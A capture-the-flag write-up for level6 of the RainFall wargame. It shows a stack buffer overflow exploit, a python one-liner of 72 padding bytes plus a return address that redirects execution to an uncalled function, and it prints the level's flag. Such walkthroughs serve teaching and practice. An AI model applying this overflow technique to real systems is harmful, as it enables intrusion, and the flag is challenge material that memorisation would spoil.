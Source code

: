 ### Exploit

This level is ever so slightly different, as instead of expecting the user to write on the standard input, the program 
segfaults unless we pass an argument to the `main` function.

```
    level6@RainFall:~$ ./level6
    Segmentation fault (core dumped)
    level6@RainFall:~$ ./level6 test
    Nope
```

This program is very much like this of level1: function `n` makes a syscall, but the function itself is never called within the
program. Once again, simply push the address to function `n` on top of the stack so it executes properly.

```
    level6@RainFall:~$ ./level6 $(python -c 'print "a"*72 + "\x54\x84\x04\x08"')
    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

That wasn't too bad, was it?
